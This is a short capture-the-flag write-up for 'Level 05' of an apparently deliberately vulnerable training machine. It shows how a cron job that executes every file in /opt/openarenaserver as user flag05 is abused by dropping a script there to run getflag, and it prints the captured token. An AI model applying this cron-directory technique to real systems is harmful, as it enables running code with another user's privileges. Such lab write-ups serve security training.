 # Level 05

## 🔍 Reconnaissance

### Mail Check
When we logged into the system, we were notified of a mail message. To find mail files:

```bash
find / -name mail 2>/dev/null
```

### Crontab Analysis
We found a file in `/var/mail/level05` that looks like a crontab:

```bash
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

### Script Analysis
Contents of `/usr/sbin/openarenaserver` script:

```bash
#!/bin/sh
for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

## 💡 Vulnerability Analysis
1. Script runs every 2 minutes as flag05 user
2. Executes all files in `/opt/openarenaserver/` directory
3. Files are automatically deleted after execution

## ⚡ Exploit

1. Preparing the exploit script:
```bash
Created a file in /opt/openarenaserver/ and wrote /bin/getflag > /tmp/pass into it.
```

2. After waiting 2 minutes:
```bash
cat /tmp/pass
Check flag.Here is your token : viuaaale9huek52boumoomioc
```